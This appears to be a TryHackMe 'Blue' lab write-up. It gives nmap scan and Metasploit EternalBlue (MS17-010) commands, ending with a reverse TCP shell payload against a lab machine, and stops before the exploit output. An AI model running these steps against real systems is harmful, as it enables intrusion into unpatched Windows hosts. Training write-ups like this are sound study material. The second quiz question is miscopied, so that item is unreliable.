  # TryHackme: Blue



## [Task 1] Recon

For the first task you should first use nmap to scan for open ports and find the type of the machines vulnerability.By running the command "nmap -sV --script=vuln -p0-1000 -open -vv 10.10.72.41" you will  find the number of open ports with port number under 1000 and the vulnerability of the machine.

<img width="415" alt="1" src="https://user-images.githubusercontent.com/28839345/164227293-7168486b-11c6-4d41-be7b-a9451185db5b.png">

<img width="924" alt="2" src="https://user-images.githubusercontent.com/28839345/164227304-1e9460d6-09e9-4ce9-a653-b46fd0164e3b.png">

#### Questions
**1. How many ports are open with a port number under 1000?**

3

**2. How many ports are open with a port number under 1000?**

ms17-010


## [Task 2] Gain Access

For this task you should first open metasploit by running the command "msfconsole" and search for the exploitation needed.Since you have the cve from the nmap results(CVE-2017-0143) run the command"search cve:cve-2017-0143" to search for possible exploitations that can be used.
<img width="1196" alt="3" src="https://user-images.githubusercontent.com/28839345/164227314-a1e798cb-6c3b-4081-990a-1167d168e770.png">

 As you can see from the above photo the full path of this exploit is "exploit/windows/smb/ms17_010_eternalblue". 

To use the exploit run the command "use exploit/windows/smb/ms17_010_eternalblue" command and then run "show options" to check the available options for this module
<img width="707" alt="4" src="https://user-images.githubusercontent.com/28839345/164227319-60ab875a-158b-46e3-9ece-84e411c9aa16.png">

Bellow you can see the output of the show options command that refers to the module options.
<img width="1152" alt="5" src="https://user-images.githubusercontent.com/28839345/164227331-d0f3ece8-9e7e-44ec-af88-a492927919d8.png">

You should then set RHOSTS to the remote host ip address.

<img width="668" alt="6" src="https://user-images.githubusercontent.com/28839345/164227336-c33e8f6f-3c7d-4465-bd38-dc0b24f02cbd.png">


After setting the RHOSTS you should set the payload of this module by running the command "set payload windows/x64/shell/reverse_tcp"

To confirm that the exploit runs correctly enter the "exploit" command and press enter .

Bellow you can see the output after running the exploit in the target machine
